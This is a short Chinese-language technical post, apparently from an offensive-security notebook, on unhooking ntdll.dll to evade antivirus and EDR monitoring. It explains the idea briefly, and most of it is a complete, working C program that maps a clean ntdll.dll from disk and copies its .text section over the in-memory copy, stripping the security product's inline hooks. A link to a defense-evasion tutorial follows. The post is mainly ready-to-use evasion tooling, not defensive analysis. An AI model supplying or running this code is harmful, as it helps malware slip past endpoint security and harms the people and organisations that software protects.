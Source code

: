 # 重新加载.text节拖钩

## 简介

以前简单介绍过[inline hook](../persistence/detous-inline-hook.md)，杀软会对ntdll进入内核的函数进行挂钩，从而实现检测和阻止，这篇文章主要是对实现过程中遇到的一些小坑进行记录，mantvydasb师傅已经对这种技术有详尽的解释，并没有什么特别复杂的操作，只是把ntdll的.text\(代码节\)进行了读取覆盖。

## 流程

1. 读取ntdll进内存
2. 读取覆盖.text节

## 代码

代码是对mantvydasb师傅拙劣的模仿

ps:使用MapViewOfFile读取文件会直接在内存里展开，并不需要像反射加载一样自己去修复重定位表。

```text
#include <Windows.h>
#include <psapi.h>

int main()
{
	MODULEINFO mInfo = { 0 };
	HANDLE hProcess = GetCurrentProcess();

	//get address of ntdll in virtual memory 
	HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
	GetModuleInformation(hProcess, hNtdll, &mInfo, sizeof(mInfo));
	LPVOID lpNtdllbase = (LPVOID)mInfo.lpBaseOfDll;
	
	HANDLE hNtdllfile = CreateFileA("c:\\windows\\system32\\ntdll.dll", GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
	HANDLE hNtdllMapping = CreateFileMapping(hNtdllfile, NULL, PAGE_READONLY | SEC_IMAGE, 0, 0, NULL);
	LPVOID lpNtdllmaping = MapViewOfFile(hNtdllMapping, FILE_MAP_READ, 0, 0, 0);

	PIMAGE_DOS_HEADER pDosheader = (PIMAGE_DOS_HEADER)lpNtdllbase;
	PIMAGE_NT_HEADERS pNtheader = (PIMAGE_NT_HEADERS)((DWORD_PTR)lpNtdllbase + pDosheader->e_lfanew);

	for (WORD i = 0; i < pNtheader->FileHeader.NumberOfSections; i++) {
		PIMAGE_SECTION_HEADER pSectionheader = (PIMAGE_SECTION_HEADER)((DWORD_PTR)IMAGE_FIRST_SECTION(pNtheader) + ((DWORD_PTR)IMAGE_SIZEOF_SECTION_HEADER * i));

		if (!strcmp((char*)pSectionheader->Name, (char*)".text")) {
			DWORD oldProtection = 0;
			bool isProtected = VirtualProtect((LPVOID)((DWORD_PTR)lpNtdllbase + (DWORD_PTR)pSectionheader->VirtualAddress), pSectionheader->Misc.VirtualSize, PAGE_EXECUTE_READWRITE, &oldProtection);
			memcpy((LPVOID)((DWORD_PTR)lpNtdllbase + (DWORD_PTR)pSectionheader->VirtualAddress), (LPVOID)((DWORD_PTR)lpNtdllmaping + (DWORD_PTR)pSectionheader->VirtualAddress), pSectionheader->Misc.VirtualSize);
			isProtected = VirtualProtect((LPVOID)((DWORD_PTR)lpNtdllbase + (DWORD_PTR)pSectionheader->VirtualAddress), pSectionheader->Misc.VirtualSize, oldProtection, NULL);
		}
	}

	CloseHandle(hProcess);
	CloseHandle(hNtdllfile);
	CloseHandle(lpNtdllmaping);
	FreeLibrary(hNtdll);

	return 0;
}
```

## LINKS

{% embed url="https://www.ired.team/offensive-security/defense-evasion/how-to-unhook-a-dll-using-c++" %}



